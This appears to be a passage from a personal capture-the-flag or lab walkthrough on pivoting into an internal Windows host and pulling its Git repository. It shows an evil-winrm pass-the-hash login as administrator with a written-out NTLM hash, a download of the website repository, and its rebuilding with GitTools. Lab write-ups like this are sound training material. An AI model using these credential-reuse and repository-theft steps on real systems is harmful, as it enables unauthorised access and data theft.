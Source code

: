
So rather than going and simply fuzzing we will take a you turn and simply download the source code locally aka move laterally.

Note that we have both the sshuttle and chisel running in order to access the personal webpage
![[Pasted image 20240101153914.png]]
![[Pasted image 20240101153848.png]]
![[Pasted image 20240101153858.png]]



```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```
![[Pasted image 20240101153504.png]]


```
C:\GitStack\repositories\Website.git
```

Will pop up one more shell
```
evil-winrm -u administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.101.150
```

```
download Website.git
```
![[Pasted image 20240101155955.png]]
It sure took a lot of time to download this file b/w 2 proxy's but in the end we are able to download it.

```
mv Website.git .git
```
![[Pasted image 20240101160448.png]]


 the server doesn't need to store the easily readable versions of the files, this means that what we've downloaded isn't actually the full repository, so much as the building blocks we can use to recreate the repo (which is exactly what happens when using `git clone` to create a local copy of a repo!).

In order to extract the information from the repository, we use a suite of tools called GitTools.
```
git clone https://github.com/internetwache/GitTools
```

Git-Tools have 3 tools:
Dumper 
Extractor
Finder

So Extractors fits out requirement so will be using it from now.
```
./extractor.sh REPO_DIR DESTINATION_DIR
```
```
./extractor.sh ../../../Website.git ../../../Website
```
![[Pasted image 20240101163648.png]]
So let's analize what happened we simply download a website.git folder
And make .git folder inside that folder containing the same contents as well as git clone git tools in that only.



This is the output that we want
![[Pasted image 20240101163815.png]]

Each of these corresponds to a commit; however, as mentioned previously, these are not sorted by date.

![[Pasted image 20240104210916.png]]
![[Pasted image 20240104210957.png]]

```
separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"
```
![[Pasted image 20240104211111.png]]

```
NUMBER-345ac8b236064b431fa43f53d91c98c4834ef8f3
```
Is the updated version

